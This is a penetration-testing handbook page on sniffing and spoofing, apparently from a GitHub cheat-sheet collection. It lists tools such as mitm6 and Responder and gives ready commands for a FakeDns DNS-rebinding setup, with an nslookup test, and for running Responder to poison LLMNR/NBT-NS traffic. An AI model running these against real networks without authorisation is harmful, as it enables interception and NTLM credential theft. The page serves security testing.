 # Sniffing & Spoofing

## Table of Contents

- [Resources](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/09_sniffing_%26_spoofing.md#Resources)
- [FakeDns](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/09_sniffing_%26_spoofing.md#FakeDns)
- [Responder](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/09_sniffing_%26_spoofing.md#Responder)

## Resources

| Name | Description | URL |
| --- | --- | --- |
| mDNS | A mDNS sniffer and interpreter. | https://github.com/eldraco/Sapito |
| mitm6 | mitm6 is a pentesting tool that exploits the default configuration of Windows to take over the default DNS server. | https://github.com/dirkjanm/mitm6 |
| mitmproxy | mitmproxy is an interactive, SSL/TLS-capable intercepting proxy with a console interface for HTTP/1, HTTP/2, and WebSockets. | https://github.com/mitmproxy/mitmproxy |
| Responder | IPv6/IPv4 LLMNR/NBT-NS/mDNS Poisoner and NTLMv1/2 Relay. | https://github.com/lgandx/Responder |

## FakeDns

> https://github.com/Crypt0s/FakeDns

### DNS Rebind Attack

```c
$ cat fake.conf
A <DOMAIN> 127.0.0.1 1%<LHOST>
```

#### Start the Server

```c
$ sudo python3 fakedns.py -c fake.conf --rebind
```

#### Test

```c
nslookup > server <LHOST>
Default server: <LHOST>
Address: <LHOST>#53
> <FAKE_DOMAIN>
Server:         <LHOST>
Address:        <LHOST>#53

Name:   <FAKE_DOMAIN>
Address: 127.0.0.1
*## server can't find <FAKE_DOMAIN>: NXDOMAIN
> <FAKE_DOMAIN>
Server:         <LHOST>
Address:        <LHOST>#53

Name:   <FAKE_DOMAIN>
Address: <LHOST>
*## server can't find <FAKE_DOMAIN>: NXDOMAIN
>
```

## Responder

> https://github.com/lgandx/Responder

```c
$ sudo responder -I <INTERFACE>
```
